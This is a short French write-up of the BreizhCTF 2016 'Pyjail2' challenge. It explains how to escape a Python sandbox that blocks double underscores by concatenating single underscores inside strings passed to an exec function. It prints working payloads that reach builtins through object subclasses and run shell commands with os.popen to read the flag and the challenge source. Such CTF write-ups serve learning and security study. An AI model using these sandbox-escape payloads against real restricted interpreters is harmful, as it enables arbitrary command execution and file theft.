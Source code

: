 # BREIZHCTF 2K16
** Chall:** Pyjail2
**Points:** 200 |
**Taux de réussite:** 14% |


Pour ce deuxième chall de pyjail on reste dans la même idée que le premier : sortir du "jail".Par contre on remarque que le double underscore n'est plus accepté par le programme comme entrée :/ 

Ayant récupéré le code du premier chall on remarque qu'il existe une fonction "_" qui prend en paramètre une chaine de caractères et qui exécute le code reçu (intéressant !).

L'idée est la suivante, nous allons exécuter les mêmes commandes qu'avant (pyjail1) sauf que cette fois ci on les passera à la fonction "\_" en tant que chaine de caractères.
Donc, on peut passer des commandes avec un double underscore dedans, il suffit simplement de concaténer deux underscores \("\__" => :(  , "\_"+"\_" => \:\) \).

```
>_("wclass = ()._"+"_class_"+"_._"+"_base_"+"_._"+"_subclasses_"+"_()[59]()")
>_("print wclass._module._"+"_builtins_"+"_['_"+"_import_"+"_']('os').popen('cat flag')").read()

BZH{fugitif 2 \o/}
```
PS:  j'ai encore oublié de copier le flag :p

De même on exécute une commande pour récupérer le code du chall "cat python\_vm2.py".
